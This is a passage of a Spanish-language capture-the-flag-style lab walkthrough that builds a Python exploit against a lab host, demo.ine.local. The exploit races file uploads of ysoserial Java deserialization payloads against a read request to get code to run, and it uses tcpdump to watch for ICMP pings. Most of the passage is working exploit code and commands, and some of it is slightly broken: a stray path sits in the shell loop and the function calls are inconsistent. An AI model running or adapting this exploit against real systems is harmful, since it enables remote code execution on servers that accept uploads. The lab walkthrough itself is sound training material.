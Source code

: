 ```
def upload(filename):
  url = "http://demo.ine.local/upload/upload.php"
  files ={'uploaded_file': open(filename, 'rb')}
  r = requests.post(url, files=files)
```

Paso 4: También necesitaremos una lista de todos los archivos de carga útil por su nombre. Dado que cada archivo lleva el nombre de la carga útil, podemos usar el archivo "yso" nuevamente para generar una lista (ya que no queremos volver a escribirlo manualmente).

```
while read payload; do /root/payloads.txt echo \'$payload\', >> /root/p2.txt; done < /root/payloads.txt
```

El resultado será similar.

La lista se puede pegar directamente en un programa de Python (la última coma después de la última carga útil debe eliminarse)

Para ejecutarlos secuencialmente y luego usar "leer archivo" inmediatamente, necesitamos implementar el concepto de subprocesos. Si simplemente ejecutamos las dos funciones anteriores una tras otra, readfile() esperará a upload() hasta que termine. En este momento, el archivo de destino habrá desaparecido.

El subproceso simplemente iniciará upload() en otro hilo, lo que permitirá que readfile() se ejecute sin esperar la respuesta de upload().

```
for payload in payloads:
  x=threading.Thread(target=upload, args=(payload,))
  x.start()
  readfile()
  time.sleep(2)
```

Antes de ejecutar el exploit, compruebe si ha iniciado un agente de escucha para detectar pings, por ejemplo, Wireshark o tcpdump.

Mandar:

```
tcpdump -i eth1 icmp
```

Paso 5: Copia y pega el código y guárdalo como exploit.py. Ahora podemos borrar la lista en el exploit, por lo que su forma final será similar a la siguiente.

```
import requests
import time
import threading
def readfile(filename):
  url = "http://demo.ine.local/upload/index.php?sent=OK"
  r = requests.get(url)
  print("[+] Used filename: " + filename)
  print(r.text)
  print("\n")
def upload(filename):
  url = "http://demo.ine.local/upload/upload.php"
  files ={'uploaded_file': open(filename, 'rb')}
  r = requests.post(url, files=files)
payloads = [
'CommonsCollections2'
]

for payload in payloads:
  x=threading.Thread(target=upload, args=(payload,))
  x.start()
  readfile(payload)
```
